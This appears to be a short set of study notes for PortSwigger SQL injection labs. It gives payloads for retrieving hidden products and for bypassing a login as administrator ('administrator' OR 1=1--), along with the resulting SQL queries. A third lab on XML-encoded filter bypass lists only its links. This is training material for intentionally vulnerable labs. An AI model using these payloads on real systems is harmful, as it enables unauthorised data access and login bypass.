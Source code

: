 ```yaml
---
title: SQL Injection
description: SQL Injection
last_update:
  date: "2025-08-08T08:00:00+08:00"
---
```


## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

| Dimension | Description                                                                 |
| --------- | --------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection#retrieving-hidden-data   |
| Lab       | https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data |

Payload

```
?category=Accessories' OR 1=1--
```

SQL

```sql
SELECT ... FROM products WHERE category = 'Accessories' OR 1=1--'
```

## Lab: SQL injection vulnerability allowing login bypass

| Dimension | Description                                                                     |
| --------- | ------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection#subverting-application-logic |
| Lab       | https://portswigger.net/web-security/sql-injection/lab-login-bypass             |

Payload

```
administrator' OR 1=1--
```

SQL

```sql
SELECT ... FROM users WHERE username = 'administrator' OR 1=1--' AND password = '123'
```

## Lab: SQL injection with filter bypass via XML encoding

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection#sql-injection-in-different-contexts                   |
| Lab       | https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding |
